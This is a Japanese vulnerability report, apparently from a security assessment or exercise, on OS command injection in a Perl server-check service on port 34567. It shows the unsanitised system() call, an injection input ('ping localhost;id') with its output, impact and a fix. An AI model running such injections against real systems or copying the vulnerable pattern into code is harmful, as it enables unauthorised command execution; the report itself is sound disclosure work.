 ## 34567番ポートで動作しているプログラムにおけるOSコマンドインジェクション攻撃が可能になる脆弱性 
### 対象
34567番ポートでxinetdを用いて動作しているperlプログラム
`/usr/local/bin/serverchk.pl`

### 危険度
Middle
* 「スペースを含めることができない」という条件はあるがOSの任意のコマンドをnobody権限で実行できる

### 解説
今回チェックを行ったサーバには、xinetdを使ったサーバチェック用のプログラムが34567/TCPで動作している。
このプログラムでは、以下のコマンド搭載されている
* help
* echo
* uptime
* iostat
* exit
* quit
* ping

これらのうち、`ping`コマンドにおいて任意のOSコマンドを実行することのできるOSコマンドインジェクション攻撃が可能であった。
このコマンドを用いた脆弱性では「スペースを含めない」という条件はあるが、
「一行の任意のコマンドをnobody権限で実行可能」であるため、特権の不要な範囲で任意の情報をサーバから収集することができる。
また、このコマンドの実行結果はログに残らないため、攻撃が行われたということを確認することができない。

### 再現方法
1. サーバの34567/TCP に任意のプログラムで接続する
```sh
nc 192.168.30.10 34567
```

2. `ping`コマンドで以下のコマンドで正常に出力されるようなコマンドを入力する
```perl
  ping   => sub {
    my $host = shift;
    system("ping -c 4 -W 1 $host");
  },
```

入力例
```sh
ping localhost;id
```

出力例
```sh
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.048 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.047 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.054 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.052 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.047/0.050/0.054/0.005 ms
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:inetd_child_t:s0-s0:c0.c1023
```

以上のようにpingコマンドを実行後に任意のコマンド（今回では`id`コマンド）が実行できる
 
### 条件
* 34567/TCP ポートがサーバより上流のネットワークでDROP/REJECTされていないこと（疎通が可能であること）

### 想定される被害・影響
* 任意のコマンドが実行されることによる不正な操作
* 場合によっては乗っ取りが可能

### 対策
* pingコマンドを廃止するか、OSコマンドを利用しないようにプログラムを修正する 